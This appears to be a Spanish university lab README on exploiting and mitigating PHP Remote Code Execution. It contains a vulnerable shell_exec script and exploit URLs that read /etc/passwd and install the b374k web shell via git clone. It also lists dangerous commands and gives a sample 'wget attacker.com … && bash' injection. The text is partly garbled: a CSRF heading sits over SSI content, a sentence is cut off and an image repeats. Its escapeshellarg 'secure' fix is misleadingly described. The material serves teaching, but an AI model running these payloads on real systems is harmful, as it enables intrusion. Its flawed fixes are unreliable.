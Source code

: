 # PPS-Unidad3Actividad7-RCE
Explotación y Mitigación de Remote Code Execution (RCE).
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques Remote Code Execution (RCE).
>
> - Analizar el código de la aplicación que permite ataques de Remote Code Execution (RCE).
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es CSRF?
---
Los servidores web generalmente brindan a los desarrolladores la capacidad de agregar pequeñas piezas de código dinámico dentro de páginas HTML estáticas, sin tener que lidiar con lenguajes completos del lado del servidor o del lado del cliente. Esta característica es proporcionada por El lado del servidor incluye(SSI).

Server-Side Includes son directivas que el servidor web analiza antes de servir la página al usuario. Representan una alternativa a escribir programas CGI o incrustar código utilizando lenguajes de scripting del lado del servidor, cuando solo se necesitan realizar tareas muy simples. Las implementaciones comunes de SSI proporcionan directivas (comandos) para incluir archivos externos, para establecer e imprimir variables de entorno CGI del servidor web, o para ejecutar scripts CGI externos o comandos del sistema.

SSI puede conducir a una Ejecución de Comando Remoto (RCE), sin embargo, la mayoría de los servidores web tienen el exec directiva desactivada por defecto.

Esta es una vulnerabilidad muy similar a una vulnerabilidad de inyección de lenguaje de scripting clásico. Una mitigación es que el servidor web debe configurarse para permitir SSI. Por otro lado, las vulnerabilidades de inyección SSI son a menudo más fáciles de explotar, ya que las directivas SSI son fáciles de entender y, al mismo tiempo, bastante potentes, por ejemplo, pueden generar el contenido de los archivos y ejecutar comandos del sistema.


Consecuencias de RCE:
• Acceso a información sensible (usuarios, archivos, configuración).
• Ejecución de comandos maliciosos (descarga y ejecución de malware).
• Escalada de privilegios y control total del sistema.

## ACTIVIDADES A REALIZAR
---
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionRCE.pdf>
> 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection>
>

Vamos realizando operaciones:

## Código vulnerable
---
Archivo vulnerable: rce.php

~~~
<?php
	$output = shell_exec($_GET['cmd']);
	echo $output;
?>
~~~

El código permite que el usuario pueda enviar un comando en la URL (a través del parámetro cmd) y ejecutarlo directamente en el sistema y NO hay validación NI sanitización de la entrada. Por lo tanto se pueden ejecutar coman

## Explotación de RCE
---
Acceder a la URL y ejecutar un comando básico:
~~~
http://localhost/rce.php?cmd=id
~~~
![](images/rce1.png)

Si se muestra información del sistema o similar (uid=1000(user) gid=1000(user)), la aplicación es vulnerable.

**Intentar listar archivos del servidor:**
~~~
http://localhost/rce.php?cmd=ls
~~~

![](images/rce2.png)

Si se muestran archivos del sistema en pantalla, el ataque funciona.

**Probar más comandos:**

~~~
http://localhost/rce.php?cmd=cat /etc/passwd
~~~

![](images/rce3.png)

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/

~~~
sudo chmod -R 777 /var/www/html/
~~~
Accedemos a la página web: 
~~~
http://localhost/rce.php?cmd=git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

El shell se habrá instalado y podremos acceder a él y ejecutar los comandos que queramos.

~~~
http://localhost/b374k/index.php
~~~
![](images/rce4.png)

El atacante tiene control total del sistema.

### Mitigaciones de RCE
**Eliminar el uso de shell_exec()**
---
Si la ejecución de comandos no es necesaria, deshabilitar la funcionalidad completamente.

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

~~
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
~~~
**Beneficios:**

- Bloquea cualquier intento de ejecución de código en el sistema.

- Evita ataques RCE de forma definitiva.

- No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

**Restringir Comandos Permitidos**

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

~~~
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec(escapeshellcmd($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
~~~

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".


Ante la consulta `http://localhost/rce.php?cmd=ls` si nos permite ejecutar el comando ls

![](images/rce5.png)

Pero sin embargo no nos permite la consulta `http://localhost/rce.php?cmd=cat /etc/passwd`

![](images/rce6.png)

_Beneficios:_

- Lista blanca de comandos permite solo los necesarios (ls, whoami, pwd).

- Evita ejecución de comandos peligrosos (rm -rf /, wget, curl, nc).

- Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

- Evita XSS con htmlspecialchars(), protegiendo la salida de comandos.

**Ejecutar Comandos con Escapes Seguros**
---

Si se necesita ejecutar comandos con argumentos, usar escapeshellarg() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

~~~
<?php
if (!isset($_GET['cmd'])) {
        die("Falta el parámetro 'cmd'");
}
$command = escapeshellarg($_GET['cmd']);
$output = shell_exec($command);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().


![](images/rce6.png)
![](images/rce6.png)
![](images/rce6.png)
![](images/rce6.png)
![](images/rce6.png)
![](images/rce6.png)

## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad7-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

